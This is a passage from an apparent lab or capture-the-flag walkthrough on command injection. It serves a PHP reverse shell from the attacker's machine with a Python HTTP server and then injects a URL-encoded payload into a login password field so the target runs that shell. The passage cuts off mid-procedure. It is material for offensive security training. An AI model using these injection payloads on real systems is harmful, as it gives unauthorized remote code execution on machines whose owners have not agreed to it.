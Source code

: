 once we do that, lets go to our machine to setup our python server in order to transfer our php rev shell from our machine towards the target
```shell
python3 -m http.server 8080
```

only then hit forward in order to forward our request
![Pasted image 20250527203744](MediaFiles/Pasted%20image%2020250527203744.png)
and then you should see on your terminal, that the file has been successfully transfered:
![Pasted image 20250527203910](MediaFiles/Pasted%20image%2020250527203910.png)

perfect! now the rev shell is in! 

#### Command injection: rev shell: execution

Lets similarly now try executing it remotely, in order to get a rev shell back:

Follow the same procedure to intercept the initial request on the password field (just like we did earlier with the wget injection) but this time, modify the request on the password field, in such way that we are actually executing our php file:
```shell
%0Abash%09-c%09"php%09rev_shell.php"%0A
```
and now our new request should look like this